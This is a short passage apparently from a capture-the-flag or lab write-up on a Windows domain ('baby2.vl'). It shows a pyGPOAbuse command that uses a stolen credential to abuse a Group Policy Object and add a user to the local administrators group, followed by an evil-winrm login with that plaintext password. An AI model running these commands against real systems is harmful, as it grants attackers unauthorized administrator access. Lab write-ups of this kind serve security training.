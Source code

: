     python3 pygpoabuse.py 'baby2.vl/gpoadm:osman.irem361!' -gpo-id 31B2F340-016D-11D2-945F-00C04FB984F9  -f -dc-ip 10.10.85.176 -command 'net localgroup administrators /add gpoadm'

>We add gpoadm as administrator and we can use evil-winrm for login!!

    evil-winrm -i 10.10.85.176 -u 'gpoadm' -p 'osman.irem361!'